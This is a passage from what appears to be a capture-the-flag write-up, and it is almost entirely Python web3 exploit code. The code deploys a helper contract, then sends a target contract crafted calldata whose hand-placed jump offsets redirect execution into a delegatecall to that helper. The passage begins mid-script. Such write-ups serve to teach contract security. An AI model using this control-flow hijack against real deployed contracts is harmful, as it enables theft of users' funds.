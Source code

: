 ```python
}
tx['gas'] = w3.eth.estimate_gas(tx)
print(tx['gas'])
signed = w3.eth.account.sign_transaction(tx, privkey)
txh = w3.eth.send_raw_transaction(signed.rawTransaction)
print(txh)
receipt = w3.eth.get_transaction_receipt(txh)
dele_addr = int(receipt['contractAddress'], 16)
print(dele_addr)


x = 0x7b
y = 0x153  # second jump
data_len = 10853 + 32
# data_len = 0x4000
data = (b'\0\0\x40\xc3' + x.to_bytes(32, 'big') + y.to_bytes(32, 'big')).ljust(data_len, b'\0')


def put(a, b):
    global data
    assert a <= len(data) - 32
    assert data[a:a + 32] == b'\0' * 32
    data = data[:a] + b.to_bytes(32, 'big') + data[a + 32:]


copydst2 = 0x1a3  # also fourth jump
jumpto3 = 0xd0
put(0x18f, 0x1337)
put(0x1af, copydst2)
put(0x1cf, jumpto3)
put(0xd0, 0x1338)
put(0xf0, 0x93)  # final return call
put(0x110, dele_addr)  # delegate call target
put((y + 4) * 0x20 - x, 0xd0)  # first jump
put((jumpto3 + 4) * 0x20 - copydst2, 0xd0)  # third jump

tx = {
    'from': account.address,
    'gasPrice': 10**9,
    'data': data,
    'to': contract_addr,
    'nonce': w3.eth.get_transaction_count(account.address),
}
tx['gas'] = w3.eth.estimate_gas(tx)
print(tx['gas'])
signed = w3.eth.account.sign_transaction(tx, privkey)
txh = w3.eth.send_raw_transaction(signed.rawTransaction)
print(txh)
```

# Pwn
